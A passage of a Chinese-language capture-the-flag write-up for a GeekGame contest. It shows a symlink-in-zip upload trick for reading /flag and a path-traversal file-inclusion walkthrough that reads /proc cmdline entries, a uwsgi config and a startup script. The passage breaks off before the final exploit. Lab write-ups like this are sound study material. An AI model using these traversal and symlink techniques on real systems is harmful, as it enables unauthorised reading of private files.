 （总榜一血）

看到源代码的第一反应就是软链接。

```shell
$ ln -s /flag flag
$ zip -y 1.zip flag
  adding: flag (stored 0%)
```

把 1.zip 传上去即可。

## 早期人类的聊天室

uwsgi 居然这么屑，作为 Python web dev 真是大开眼界。

首先，显然，查看 chatlog 的页面可以 LFI（本地文件包含）。通过 <https://prob17-placeholder.geekgame.pku.edu.cn/module?name=chatlog&log=../utils.py> 可以看到 `utils.py` 的源代码，没啥大问题。

但是包含不了 `/flag`，可能是权限不够，无论如何，既然是 Linux Docker，那就让我康康 `/proc/self/cmdline` 吧。

```
uwsgi�--ini�/tmp/uwsgi-ctf.ini�
```

再看看 `/tmp/uwsgi-ctf.ini`：

```ini
[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = nobody
gid = nogroup
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid
```

权限是 `nobody:nogroup`！怪不得。虽然我们是小小的 nobody，但是 PID 1 的 cmdline 还是能看的。查看 `/proc/1/cmdline`：

```
/sbin/docker-init�--�sh�run.sh�
```

`run.sh` 在哪里呢？找找就发现就在 `/usr/src/ufctf/run.sh`：

```shell
#!/bin/sh

cd /usr/src/ufctf

cp /flagtmp /flag
echo "" > /flagtmp

chown nobody -R . \
    && chmod 0666 -R /tmp/* \
    && chown root:root /flag \
    && chmod 0600 /flag

socat UNIX-LISTEN:/sock/socat.sock,fork,reuseaddr TCP4:127.0.0.1:8080 &

nginx -c /etc/nginx/nginx.conf
exec supervisord -n -c /etc/supervisor-ctf.conf
```
